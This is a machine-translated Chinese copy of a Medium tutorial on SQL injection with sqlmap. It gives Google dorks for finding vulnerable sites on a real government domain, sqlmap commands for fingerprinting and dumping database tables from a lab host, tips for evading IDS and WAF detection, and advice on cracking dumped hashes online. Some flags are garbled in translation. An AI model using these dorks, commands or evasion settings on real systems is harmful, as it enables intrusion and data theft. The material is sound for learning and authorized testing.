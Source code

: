 # SQL 注入实践概述(2/2)

> 原文：<https://medium.com/nerd-for-tech/sql-injection-practical-overview-2-2-5ce6827f63b?source=collection_archive---------10----------------------->

继续这个练习，我们刚刚讨论了 **SQLi** 的定义、可能的攻击类型、经典和盲态 SQLi**的工作原理、数据处理及其在 HTTP 中的差异，以及两个实际例子。**

手动做事情很棒，但是仅仅为了证明一个观点就需要大量的努力，并且根据你的技能，你可以努力尝试得到一个假阳性的场景或者可能跳过一个真实的场景。

有很多工具可以自动化和利用 **SQLi** 案例，但这里有几个值得一提，包括:

1.  Acunetix 是一个 web 漏洞分析器，可以识别 URL、字段 ID 和可利用的向量。它还显示了分析过程中出现的元素的描述，还可以向现有的内部 **SQLi** 模块发送请求，并通过几次点击获得结果
2.  **sqlmap** (稍后动手)是一个 **CLI** 程序，它让你定制查询，以便利用 **SQLi** 攻击媒介。这不是一个自动的过程，您必须根据以前的结果来指导您的查询。
3.  Havij 是一个面向 Windows 的工具，它允许你在一个丰富的 UI 环境中参数化 IP 地址、目标和请求方法。关于 **Havij** 的已知问题是它被认为非常嘈杂，很容易被任何 IDS 检测到。
4.  Burpsuite 是一个出色的工具，它有很多用于 web 分析的特性，其中之一是对 HTTP 请求的嗅探能力。Burpsuite 有一个插件市场，可以让你与其他工具集成以扩展功能。

有了所有可用的工具选项。这里的自然步骤是找到易受攻击的站点。这个过程可以手动完成，但是，在 **Google Hacking** 的帮助下，你可以很容易地找到有趣的结果。Google 除了是一个强大的搜索引擎之外，也可以被用作一个易受攻击的或者基础设施搜索引擎。它使用**呆子**，这是用于过滤和检测易受攻击的网站的命令。

以下是过滤 **SQLi** 易受攻击站点的几个示例:

1.  `site:gob.ve SQL error: (MySQL)`
2.  `site:gob.ve Warning: obdc_connect()`
3.  `site:gob.ve warning sql`

如果您能够成功过滤特定的错误描述符，将会显示更好的结果。

# 现在，重头戏来了！

至此，我们都知道了什么是 SQLi，如何手动执行，可用的工具，以及如何找到易受攻击的站点。

现在是时候用`sqlmap`弄脏我们的手了。

## 装置

Sqlmap 已经预装在 Kali Linux 操作系统中，但是如果您没有使用该操作系统，您可以随时下载它并将其安装在您自己的系统中。这个工具是一个 python 脚本，非常容易安装，你可以去他们的[网站](http://sqlmap.org/)或者检查它的 Github [库](https://github.com/sqlmapproject/sqlmap)并按照安装步骤进行。

## 基本命令

*免责声明:为了这个演示，我在一个受控的环境中使用了著名的“我的令人敬畏的照片博客”vuln lab*

1.  `sqlmap -u http://10.0.0.20/cat.php?id=2`
2.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql'`。`--dbms`选择要使用的数据库管理系统
3.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --level='3' --risk='2'`“级别”定义了要执行的检查/有效负载的数量，“风险”允许工具使用的有效负载类型，该值高达 3，其中包括繁重的 SQL 查询。
4.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --level='3' --risk='2' --finger`。`--finger`参数让您知道所使用的基础设施的类型
5.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --level='3' --risk='2' --finger --current-user`。它是不言自明的，它显示了数据库的当前用户
6.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --level='3' --risk='2' --finger --hostname`显示服务器的主机名

## 使用数据结构

1.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --finger -D 'photoblog' --tables`。这个程序选择`-D`(数据库)并显示表格。
2.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbms='mysql' --finger -D 'photoblog' -T categories --columns --dump`。这将选择数据库和名为`categories`的`-T`表，并提示列的结构及其值

还可以用`--dump-all`代替`--dump`来提取列的值。如果您正在查询一个带有散列值的表，您可以获取那些值并在*md5checking.com*或*crackstation.net*中执行检查

使用 **sqlmap** 的一个更简单的方法是使用`--wizard`标志。

## 盲 SQLi 案例

盲 **SQLi** 案例的体验几乎是相同的，一旦您检测到一个易受攻击的参数，您就可以运行 **sqlmap** 命令，并且根据返回的任何输出，您可以重复执行，希望成功

对于 **POST** 漏洞利用，我们需要使用 **Burpsuite** 或任何可以将请求保存到`.txt`文件中的代理。然后您可以运行带有`-r`标志的 **sqlmap** 命令来指向一个特定的文件名，还有`--current-user`标志

这里有一个例子:

`sqlmap -r request.txt --current-user`

## 经典 SQLi 案例

Sqlmap 在`-u`标志的帮助下区分`GET`利用案例

1.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) --dbs`
2.  `sqlmap -u [http://10.0.0.20/cat.php?id=2](http://10.0.0.20/cat.php?id=2) -D 'photoblog' -T categories -C name,email,phone --dump`

## 避免 IDSs

在许多情况下，目标基础设施可以拥有类似于`IDS`、`IPS`、`HDIS`、`WAF`的系统，这些系统可以检测到您对 **SQLi** 的尝试并被禁止。这对我们来说是个可怕的消息。

为了绕过这一点，我们可以应用这一技术来优化所需的参数并避免检测。

1.  `--delay=5`设置延迟会使请求变得更慢，因此 IDS 可以将其视为执行时间方面的一种攻击模式
2.  `timeout=10`在`10 secs`不成功将中止命令的执行
3.  `retriest=2`设置失败时连续尝试的次数
4.  `threads=5`线程的使用会分散系统的预期行为
5.  避免添加`-v`冗长，这不会改变速度，但需要更多的信息细节
6.  使用`-p`并要求某些参数来利用。

使请求变慢将试图模拟一个常规请求而不是一个自动请求，后者很容易被阻塞。

## auth 呢？

POST 请求倾向于使用身份验证机制，为此，我们可以:

`sqlmap --auth-type=Basic --auth-cred='email:password' --forms -u [URL] ---level=3 --risk=3 --dbs`

我们这里有两个新朋友。

1.  `--auth-type`将设置使用的 HTTP 协议
2.  `--auth-cred`将有一个用于我们攻击的明文注册凭证

这里的一个提示是筛选要评估的参数。

SQLi 也可以在许多其他工具中执行。 **Burpsuite** 有一个名为 **C02** 的扩展，它与 **Sqlmap** 相结合，为 **SQLi** 创建了一个大规模的集成工具。Acunetix 还在其扫描中包含了 **SQLi** 漏洞。

所以，这里使用的工具无论在哪里都会抛出相同的结果。

黑客快乐:)